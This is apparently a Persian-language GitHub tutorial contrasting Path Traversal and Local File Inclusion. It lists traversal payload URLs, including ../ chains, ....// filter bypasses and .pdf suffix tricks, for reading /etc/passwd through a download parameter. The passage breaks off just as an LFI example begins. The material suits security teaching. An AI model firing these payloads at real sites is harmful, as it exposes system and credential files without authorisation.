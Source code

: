 # Path-Travel-or-Directory-Traversal-AND-Local-File-Inclusion-LFI-


- آسیب‌پذیری‌های **Path Traversal** (یا **Directory Traversal**) و **Local File Inclusion (LFI)** به هم مربوط هستند، ولی تفاوت‌های مهمی دارند.

## **Path Traversal:**

### **Path Traversal** (دسترسی به مسیر یا پیمودن دایرکتوری):
- در این نوع آسیب‌پذیری، مهاجم می‌تواند مسیر فایل‌ها را دستکاری کند تا به فایل‌ها یا دایرکتوری‌هایی که خارج از دایرکتوری‌های مجاز هستند دسترسی پیدا کند. مثلا، مهاجم می‌تواند با استفاده از `../` به فایل‌های حساس (مثل `/etc/passwd` در سیستم‌های مبتنی بر Linux) دسترسی پیدا کند. این آسیب‌پذیری فقط امکان دیدن محتوای فایل‌ها را می‌دهد و شامل اجرای آن‌ها نیست.
- چطور پیدا کنیم؟
    - فرض کنید یک URL به این صورت را می‌بینیم:

    ```yaml
    https://target.com/vocational/download.php?filename=wjdncjwnjdekcnwdc.pdf
    ```

    حالا شما می‌آیید با استفاده از `/etc/passwd` شروع می‌کنید به گشتن:

    ```yaml
    https://target.com/vocational/download.php?filename=/etc/passwd
    ```

    حالا که پیدا نشد باید با استفاده از `../` بیایم مراحل زیر را بریم:

    ```yaml
    https://target.com/vocational/download.php?filename=/etc/passwd
    https://target.com/vocational/download.php?filename=../etc/passwd
    https://target.com/vocational/download.php?filename=../../etc/passwd
    https://target.com/vocational/download.php?filename=../../../etc/passwd
    https://target.com/vocational/download.php?filename=../../../../etc/passwd
    https://target.com/vocational/download.php?filename=../../../../../etc/passwd
    https://target.com/vocational/download.php?filename=../../../../../../etc/passwd
    https://target.com/vocational/download.php?filename=../../../../../../../etc/passwd
    Or
    https://target.com/vocational/download.php?filename=....//etc//passwd
    https://target.com/vocational/download.php?filename=....//....//etc/passwd
    https://target.com/vocational/download.php?filename=....//....//....//etc/passwd
    https://target.com/vocational/download.php?filename=....//....//....//....//etc/passwd
    Or
    https://target.com/vocational/download.php?filename=../etc/passwd.pdf
    https://target.com/vocational/download.php?filename=../../../etc/passwd.pdf
    and ...
    ```

### **Local File Inclusion (LFI)** (گنجاندن فایل محلی):
- در آسیب‌پذیری LFI، مهاجم می‌تواند فایل‌های موجود در سیستم را در چارچوب اجرای برنامه شامل کند. مثلا، اگر ورودی کاربر بدون فیلتر به عنوان مسیر فایل استفاده شود، مهاجم می‌تواند فایل‌های حساس یا حتی فایل‌هایی که کد اجرایی دارند را در برنامه لود کند. این امر می‌تواند به اجرای کد مخرب در سیستم منجر شود.

## **تفاوت و شباهت‌ها:**
- **Path Traversal** و **LFI** هر دو به دستکاری در مسیر فایل‌ها وابسته هستند، ولی LFI به طور خاص شامل **گنجاندن و احتمالا اجرای فایل‌ها** است، در حالی که Path Traversal فقط برای **دیدن محتوای فایل‌ها** است.
- **Path Traversal** معمولاً به دیدن محتوای محدود می‌شود، ولی **LFI** می‌تواند به اجرای کد مخرب منجر شود، به خصوص اگر فایل‌های محلی کد اجرایی داشته باشند.

## به طور خلاصه:
- **Path Traversal**: برای دیدن محتوای فایل‌های حساس.
- **LFI**: برای گنجاندن و احتمالا اجرای فایل‌های محلی در چارچوب برنامه که می‌تواند خطرات بیشتری مثل اجرای کد مخرب داشته باشد.

## در اینجا مثالی می‌آورم که تفاوت بین **Local File Inclusion (LFI)** و **Path Traversal** را نشان دهد:

### **مثال LFI:**

فرض کنید که یک وب‌سایت پارامتری به نام `file` را دریافت می‌کند که فایل‌های موجود در سرور را در صفحه نمایش می‌دهد. مثلا:

